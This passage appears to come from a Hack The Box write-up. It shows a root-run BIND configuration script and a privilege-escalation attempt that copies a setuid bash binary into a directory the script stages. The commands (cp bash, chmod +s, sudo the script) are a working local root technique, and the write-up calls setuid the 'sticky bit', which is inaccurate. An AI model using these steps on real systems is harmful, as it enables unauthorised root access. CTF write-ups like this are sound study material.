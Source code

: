 ```bash
fi

# Create config file that includes all files from named.bindmgr.
echo "[+] Creating $BINDMGR_CONF file."
printf '// Automatically generated file. Do not modify manually.\n' > $BINDMGR_CONF
for file in * ; do
    printf 'include "/etc/bind/named.bindmgr/%s";\n' "$file" >> $BINDMGR_CONF
done

# Stage new version of configuration files.
echo "[+] Staging files to $BINDMGR_DIR."
cp .version * /etc/bind/named.bindmgr/

# Check generated configuration with named-checkconf.
echo "[+] Checking staged configuration."
named-checkconf $BINDMGR_CONF >/dev/null
if [[ $? -ne 0 ]] ; then
    echo "[-] ERROR: The generated configuration is not valid. Please fix following errors: "
    named-checkconf $BINDMGR_CONF 2>&1 | indent
    exit 44
else
    echo "[+] Configuration successfully staged."
    # *** TODO *** Uncomment restart once we are live.
    # systemctl restart bind9
    if [[ $? -ne 0 ]] ; then
        echo "[-] Restart of bind9 via systemctl failed. Please check logfile: "
    systemctl status bind9
    else
    echo "[+] Restart of bind9 via systemctl succeeded."
    fi
fi
```

First create an empty directory since the script copies all the files in the cwd:

```bash
cd $(mktemp -d)
```

Then pass the version check with:

```bash
echo 1 > .version
```

Next add a bash binary so that it will be copied to `/etc/bind/named.bindmgr/`:

```bash
cp /usr/bin/bash ./
chmod +s ./bash
sudo /usr/local/bin/bindmgr.sh
```

But the binary in `/etc/bind/named.bindmgr/` has lost the sticky bit. To keep
it, `cp` requires the flag `--preserve=mode`.


[author-profile]: https://app.hackthebox.eu/users/77141
[leaks]: images/leaks.png
[no-ip-doc]: https://www.noip.com/integrate/response